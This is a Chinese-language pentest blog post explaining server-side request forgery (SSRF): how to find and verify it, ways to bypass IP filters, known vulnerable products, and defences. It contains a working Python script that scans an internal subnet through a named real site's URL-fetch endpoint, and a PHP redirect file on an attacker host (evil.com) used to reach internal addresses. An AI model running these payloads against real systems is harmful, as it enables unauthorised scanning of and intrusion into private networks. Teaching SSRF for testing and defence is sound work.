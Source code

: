 ```yaml
---
draft: false
date: 2016-06-30 15:30:54
title: SSRF
description: 
categories:
  - Pentest
tags:
  - ssrf
---
```


### 0x00 什么是SSRF
SSRF(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞，<font color="FF0000">它将一个可以发起网络请求的服务当作跳板来攻击其他服务</font>，SSRF的攻击目标一般是<font color="FF0000">内网</font>。  
当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)，但是没有对目标地址做过滤与限制时就会出现SSRF。

### 0x01 SSRF的危害
可以扫描内部网络  
可以构造数据攻击内部主机

### 0x02 漏洞挖掘
其实只要能对外发起网络请求就有可能存在SSRF漏洞。
```
1. 从WEB功能上寻找
    通过URL分享内容
    文件处理、编码处理、转码等服务
    在线翻译
    通过URL地址加载与下载图片
    图片、文章的收藏
    设置邮件接收服务器
2. 从URL关键字寻找
    share、wap、url、link、src、source、target、u、3g、
    display、sourceURl、imageURL、domain...
```

### 0x03 漏洞验证
```
http://www.aa.com/ss.php?image=http://www.baidu.com/img/bd_logo1.png
1. 右键在新窗口打开图片，图片地址为http://www.baidu.com/img/bd_logo1.png，
    说明不存在SSRF漏洞。  
2. firebug看网络连接信息，若没有http://www.baidu.com/img/bd_logo1.png
    这个图片请求，则证明图片是aa.com服务端发起的请求，则可能存在SSRF漏洞。
```

### 0x04 绕过过滤
有时漏洞利用时会遇到IP限制，可用如下方法绕过：
```
* 使用@：http://A.com@10.10.10.10 = 10.10.10.10
* IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
* 使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
* 端口绕过：ip后面加一个端口
* xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
* 通过js跳转
```

### 0x05 通用的SSRF实例
* weblogin配置不当，天生ssrf漏洞
* discuz x2.5/x3.0/x3.1/x3.2 ssrf漏洞
* CVE-2016-1897/CVE-2016-1898 - FFMpeg
* CVE-2016-3718 - ImageMagick

### 0x06 附实例POC
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests
from IPy import IP
import Queue
import threading


def get_url_queue():
    url = "http://www.sogou.com/reventondc/external?key=&objid=&type=2&charset=utf-8&url=http://"
    urllist = Queue.Queue()
    ip_list = IP('10.146.20.0/24')
    port_list = ['80','8000','8080']
    for ip_add in ip_list:
        ip_add = str(ip_add)
        for port in port_list:
            url_t = url + ip_add + ':' + port
            urllist.put(url_t)
    return urllist

def get_title(urllist):
    while not urllist.empty():
        url = urllist.get()
        html = requests.get(url).text
        patt = r'<title>(.*?)</title>'
        m = re.search(patt,html)
        if m:
            title = m.group(1)
            print "%s\t%s" % (url,title)


urllist = get_url_queue()
print "start get title..."
for x in xrange(1,30):
    t = threading.Thread(target=get_title,args=(urllist,))
    t.start()
```

### 0x07 防御
* 限制协议为http或https
* 禁止30x转跳
* 过滤参数(只要出现内网ip或域名就直接干掉)


#### ===== 20170609更新 =====
ssrf无回显用dnslog，有回显就加载第三方内容，宝哥说的姿势：

* 302跳转

```php
//在自己服务器上建立文件，利用302跳转到对方内网地址。
//http://target.com/httpProxyAccess.htm?go=http://evil.com/a.php?url=http://10.11.213.57
//a.php内容如下：
<?php
    $url = $_GET['url'];
    header("Location:".$url);
?>
```

* iframe

```php
//在自己服务器建立文件，利用iframe标签请求对方内网地址。
//参考http://www.secpulse.com/archives/50034.html
<iframe src="对方内网地址">
```
